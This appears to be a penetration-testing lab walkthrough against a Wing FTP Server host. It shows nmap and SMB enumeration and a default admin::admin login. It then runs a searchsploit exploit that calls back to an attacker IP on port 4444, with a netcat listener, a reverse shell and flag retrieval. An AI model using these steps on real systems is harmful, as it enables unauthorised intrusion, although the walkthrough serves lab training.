








# Create file

```bash
mkdir steven
cd steven
mkdir nmap gobuster exploit
touch users.txt creds.txt
echo 'Testing....1...2...3...' > test.txt
```

# Network Scanning

```bash
ip='10.11.1.36'
## Regular Scan + Version
sudo nmap -Pn -n $ip -sC -sV -p- --open -oN nmap/nmap.log
```

Reminder:
1. Check all the version
2. Check all the open ports



Hmmm I got a lot of information here, lets do it step by step.

## FTP

```bash
ftp $ip
anonymous::anonymous
"Login failed"
```


Lets check version, Wing FTP Server



Seems like a lot of information here, but couldn't get any version yet, lets do more enumeration here.

## smb

from the opening port, i saw smb port is open. Lets do smb port enumeration

```bash
smbclient -L //$ip
```



it seems like they dont have any share group here

```bash
# lets use enum3linux to find any useful information
enum4linux -a $ip
"No extra information here"
```

## HTTP Port Open


from nmap scan, i could see it is related to Wing FTP Server




``` bash
# Gobuster
gobuster dir -u http://$ip -w /usr/share/wordlists/dirb/common.txt -o gobuster/dir.log -t 42

# dirsearch
dirsearch -u $ip
```


it seems like they didn't show a lot information here.

## http 5466

hmm this is an admin page



```bash
# lets try week password
anonymous::anonymous
"Failed"

admin::admin
"Success"
```


Lets see what kind of information, i can gain from here


seems like is a version 4.3.8

Lets search exploit

```bash
searchsploit wing ftp server 4.3.8

searchsploit -m 50720
```


found the exploit, which fit my case a lot

```bash
# lets try running the exploits
python3 50720.py 10.11.1.36 5466 172.16.1.2 4444 admin admin

#open a listener
sudo nc -lnvp 4444
```



# local.txt
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
whoami
id
```



# Windows Privilege Escalation
```powershell
whoami
# Since i already the authority and system straight look for flags

type ket.txt

```


